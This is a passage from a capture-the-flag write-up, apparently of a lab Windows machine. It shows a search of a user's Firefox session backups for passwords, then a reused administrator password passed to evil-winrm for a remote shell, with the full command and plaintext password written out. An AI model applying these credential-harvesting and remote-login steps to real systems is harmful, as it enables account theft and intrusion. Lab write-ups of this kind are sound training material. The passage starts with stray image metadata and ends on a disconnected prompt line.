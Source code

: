 I get the password!

#### Find in Session Data

Rather than dumping memory, I can look in the user’s session data. I’ll start by finding the Firefox profile. In this case, there’s only one:

```

[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir

    Directory: C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/26/2019  11:35 PM                77nc64t5.default 

```

In the profile folder, there’s a folder named `sessionstore-backups`. Sometimes after a while there will be session data backed up in this folder. On a reset, it’s empty. When there is session data, I can find it with:

```

[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password

```

### Shell as administrator

The password for the site is reused as the administrator password for the box, so I can just connect with `evil-winrm`:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\administrator -s . -e . -p '4dD!5}x/re8]FBuZ'                                                                

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And get `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
50dfa3c6************************

```

[10.10.10.149]: PS C:\Users\Chase\Documents> whoami